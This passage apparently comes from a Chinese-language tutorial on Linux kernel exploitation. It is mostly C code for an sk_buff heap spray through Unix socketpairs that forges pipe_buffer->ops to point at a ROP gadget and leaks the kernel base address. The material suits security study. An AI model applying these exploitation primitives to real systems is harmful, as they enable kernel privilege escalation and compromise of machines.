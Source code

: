 ```c
				return 0;
			offset += copy;
		}
		start = end;
	}
	if (!len)
		return 0;
	... ...
}
EXPORT_SYMBOL(skb_copy_datagram_from_iter);
```

**构造**：

```c
#define SKB_SHARED_INFO_SIZE 0x140
#define NUM_SOCKETS 4
#define NUM_SKBUFFS 128
int ss[NUM_SOCKETS][2];
char buf[0x400 - SKB_SHARED_INFO_SIZE];
for (int i = 0; i < NUM_SOCKETS; i++) 
    socketpair(AF_UNIX, SOCK_STREAM, 0, ss[i]);
struct pipe_buffer *p_buf = (struct pipe_buffer *)&buf;			// 伪造 pipe_buffer->ops
p_buf->ops = kheap_addr + 0x290;
struct pipe_buf_operations *ops = (struct pipe_buf_operations *)&buf[0x290];
ops->release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;
for (int i = 0; i < NUM_SOCKETS; i++) {
   for (int j = 0; j < NUM_SKBUFFS; j++) {
     if (write(ss[i][0], buf, 0x400-0x140) < 0) {
       perror("[-] write");
       return -1;
     }
   }
}
// 读取skb内容
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], buf, sizeof(buf)) < 0) {
        perror("[-] read");
        goto err_rmid;
      }
      if (*(uint64_t *)&buf[0x10] != MTYPE_FAKE)
        pipe_buffer_ops = *(uint64_t *)&buf[0x10];				// 泄露 pipe_buffer->ops —— 内核基址
    }
  }
// 释放skb
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], buf, 0x400-0x140) < 0) {
        perror("[-] read");
        return -1;
      }
    }
  }
```
